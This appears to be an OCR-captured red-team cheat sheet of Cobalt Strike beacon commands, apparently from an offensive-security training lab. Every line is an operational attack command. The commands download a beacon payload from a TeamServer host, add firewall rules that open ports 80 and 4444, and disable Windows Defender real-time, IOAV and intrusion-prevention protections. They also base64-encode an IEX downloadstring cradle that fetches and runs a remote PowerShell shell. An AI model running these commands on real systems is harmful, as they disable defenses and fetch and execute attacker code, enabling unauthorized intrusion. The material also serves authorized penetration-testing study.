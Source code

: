 MISC

# Run a python3 webserver
$ python3 -m http.server

# Check outbound access to TeamServer
$ iwr -Uri http://nickelviper.com/a
$ iwr -Uri http://nickelviper.com/a -OutFile beacon.ps1
# Change incoming firewall rules
beacon> powerpick Get-NetFirewallRule
# Enable http inbound and outbound connection
beacon> powerpick New-NetFirewallRule -Name "HTTP-Inbound" -DisplayName "HTTP (TCP-In)" -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 80
beacon> powerpick New-NetFirewallRule -Name "HTTP-Outbound" -DisplayName "HTTP (TCP-Out)" -Enabled True -Direction Outbound -Protocol TCP -Action Allow -LocalPort 80
# Enable Specific port inbound and outbound connection
# Inbound Rule
beacon> powerpick New-NetFirewallRule -Name "Allow-Port-Inbound" -DisplayName "Allow Inbound Connections to Port 12345" -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 4444
# Outbound Rule
beacon> powerpick New-NetFirewallRule -Name "Allow-Port-Outbound" -DisplayName "Allow Outbound Connections to Port 12345" -Enabled True -Direction Outbound -Protocol TCP -Action Allow -RemotePort 4444
# Removing a firewall rule by its name
beacon> powerpick Remove-NetFirewallRule -DisplayName "Test Rule"

# Disabled Real Time Protection / Windows Defender
beacon> powerpick Set-MPPreference -DisableRealTimeMonitoring $true -Verbose
beacon> powerpick Set-MPPreference -DisableIOAVProtection $true -Verbose
beacon> powerpick Set-MPPreference -DisableIntrusionPreventionSystem $true -Verbose

## Encode the powershell payload to base64 for handling extra quotes 
# From Powershell 
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
#From Linux 
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

